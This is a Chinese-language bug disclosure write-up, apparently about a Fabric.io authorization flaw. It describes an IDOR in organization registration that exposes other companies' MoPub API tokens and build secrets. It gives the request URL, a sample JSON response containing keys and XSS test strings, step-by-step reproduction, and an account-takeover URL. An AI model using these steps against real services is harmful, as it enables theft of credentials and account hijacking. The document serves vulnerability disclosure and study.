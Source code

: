 ## 前言

声明：文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由用户承担全部法律及连带责任，文章作者不承担任何法律及连带责任。


## 主要逻辑

Fabric平台帮助你构建更稳定的应用程序，通过世界上最大的移动广告交易平台产生收入，并使你能够利用Twitter的登录系统和丰富的实时内容,实现更大的分发和更简单的身份识别; 在注册功能(主要是为公司注册)中,缺少适当的授权检查，允许任何用户窃取API令牌。


## 请求

URL GET/POST data: POST METHOD:

`https://fabric.io/img-srcx-onerrorprompt15/android/apps/app.myapplication/mopub`

![img_13.png](img_13.png)

响应:

```json
{
  "mopub_identity": {
    "id":"5496c76e8b15dabe9c0006d7",
    "confirmed":true,
    "primary":false,
    "serv ice":"mopub",
    "token":"35592"
                  },
  "organization":{
    "id":"5460d2394b793294df01104a",
    "name":"\u003Ca href=\"javascript:alert(1);\"\u003Es\u003C/a\u003E\u003Ch1\u003Etest\u003C/h1\u003E",
    "al ias":"img-srcx-onerrorprompt1s- projects2",
    "api_key":"8590313c7382375063c2fe279a4487a98387767a",
    "enrollments":{
      "beta_ distribution":"true"
    },
    "accounts_count":3,
    "apps_counts":{
      "android":2
    },
    "sdk_organization":true,
    " build_secret":"5ef0323f62d71c475611a635ea09a3132f037557d801503573b643ef8ad82054",
    " mopub_id":"33525"
  }
}
```

## 复现步骤

1.创建两个账户

2.记下这两个账户的公司(organization)id

3.账户A用公司B的id重复上述请求
![img_15.png](img_15.png)

4.你就可以窃取受害者mopub API令牌

## 账户劫持

1.用上述方法使用fabric.io从受害者那里窃取到`build secret`

2.使用下面的URL进入受害者mopub帐户。
`https://app.mopub.com/complete/htsdk/?code=[build secret]&amp;next=%2d replace
[build secret] with token you extracted from step one`

用从第一步提取的令牌取代`build secret`


3.现在你将可以访问受害者mopub的帐户，他的所有应用程序/组织将在fabric中显示出来

![img_14.png](img_14.png)



